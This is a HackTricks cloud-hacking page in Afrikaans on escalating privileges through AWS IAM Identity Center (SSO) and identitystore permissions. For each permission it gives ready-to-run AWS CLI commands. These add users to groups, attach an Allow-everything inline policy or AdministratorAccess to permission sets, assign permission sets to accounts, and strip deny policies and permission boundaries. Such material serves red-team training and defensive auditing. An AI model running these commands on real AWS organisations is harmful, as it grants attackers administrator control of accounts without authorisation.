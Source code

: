# AWS - SSO & identitystore Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Vir meer inligting oor AWS Identity Center / AWS SSO kyk:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Let daarop dat **standaard**, slegs **gebruikers** met toestemmings **van** die **Bestuursrekening** toegang sal hê tot en **beheer oor die IAM Identity Center**.\
Gebruikers van ander rekeninge kan dit slegs toelaat as die rekening 'n **Gedelegeerde Administrateur** is.\
[Kyk na die dokumentasie vir meer inligting.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Herstel Wachtwoord~~

'n Maklike manier om voorregte te verhoog in gevalle soos hierdie, sou wees om 'n toestemming te hê wat toelaat om gebruikers se wagwoorde te herstel. Ongelukkig is dit slegs moontlik om 'n e-pos aan die gebruiker te stuur om sy wagwoord te herstel, so jy sal toegang tot die gebruiker se e-pos nodig hê.

### `identitystore:CreateGroupMembership`

Met hierdie toestemming is dit moontlik om 'n gebruiker binne 'n groep te plaas sodat hy al die toestemmings wat die groep het, sal erf.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings toeken aan 'n Toestemmingstel wat aan 'n gebruiker onder sy beheer toegeken is.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings toeken aan 'n Toestemmingstel wat aan 'n gebruiker onder sy beheer toegeken is

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings aan 'n Toestemmingstel toeken wat aan 'n gebruiker onder sy beheer toegeken is.

{% hint style="warning" %}
Om hierdie toestemmings in hierdie geval te misbruik, moet jy die **naam van 'n kliënt bestuurde beleid weet wat binne AL die rekeninge is** wat geraak gaan word.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

'n Aanvaller met hierdie toestemming kan 'n Toestemmingstel aan 'n gebruiker onder sy beheer toeken aan 'n rekening.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gee die STS korttermyn geloofsbriewe vir 'n gegewe rolnaam wat aan die gebruiker toegeken is.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

U het egter 'n toegangstoken nodig wat ek nie seker weet hoe om te kry nie (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n AWS bestuurde beleid en die gespesifiseerde toestemmingset verwyder. Dit is moontlik om meer voorregte toe te ken deur **'n bestuurde beleid te ontkoppel (weier beleid)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n kliënt bestuurde beleid en die gespesifiseerde toestemmingset verwyder. Dit is moontlik om meer voorregte toe te ken deur **'n bestuurde beleid (weier beleid)** te ontkoppel.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die toestemmings uit 'n inline beleid van die toestemmingset verwyder. Dit is moontlik om **meer voorregte te verleen deur 'n inline beleid (weier beleid) te ontkoppel**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die Toestemming Grens van die toestemmingstel verwyder. Dit is moontlik om **meer bevoegdhede te verleen deur die beperkings op die Toestemmingstel** wat van die Toestemming Grens gegee is, te verwyder.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
